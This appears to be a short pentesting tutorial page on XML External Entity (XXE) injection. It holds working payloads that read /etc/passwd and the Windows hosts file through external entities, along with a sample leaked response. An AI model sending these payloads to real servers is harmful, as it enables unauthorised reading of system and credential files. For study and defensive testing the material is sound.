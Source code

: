 # XXE Injection

XML External Entities disclose or retrieve arbitrary files from the target server's local system by modifying the submitted XML document. This can usually be the first step to gaining Remote Code Execution (RCE).

We can find a typical example of this vulnerability as follows:

* A site accepts XML input and parses it without properly securing or validating it

{% code title="Request format" overflow="wrap" lineNumbers="true" %}
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE data [
    <!ELEMENT data ANY >         <!--Allows any input without validation-->
    <!ELEMENT name (#PCDATA)>
]>
<data>
    <name>example</name>
</data>
```
{% endcode %}

***

* We can send an XML petition to request a system file using the _Entity_ parameter

{% code title="XEE payload" overflow="wrap" lineNumbers="true" %}
```xml
<?xml version="1.0" encoding="UTF-8"?> <!DOCTYPE data [<!ENTITY xxe SYSTEM "file:///etc/passwd">]>    <!-- Defining the External Entity-->
<data>
    <name>&xxe;</name>        <!--Calling the External Entity -->
</data>
```
{% endcode %}

***

* With this, the contents of the requested file would be exposed

{% code title="Example response" overflow="wrap" lineNumbers="true" %}
```xml
<data>
    <name>root:x:0:0:root:/root:/bin/bash
    daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
    bin:x:2:2:bin:/bin:/usr/sbin/nologin
    ...
    </name>
</data>
```
{% endcode %}

***

* It also can be done against _Windows_ hosts

{% code title="XEE windows" overflow="wrap" lineNumbers="true" %}
```xml
<?xml version="1.0" encoding="UTF-8"?> <!DOCTYPE data [<!ENTITY xxe SYSTEM "file:///C:/windows/system32/drivers/etc/hosts">]>
<data>
    <name>&xxe;</name>
</data>
```
{% endcode %}
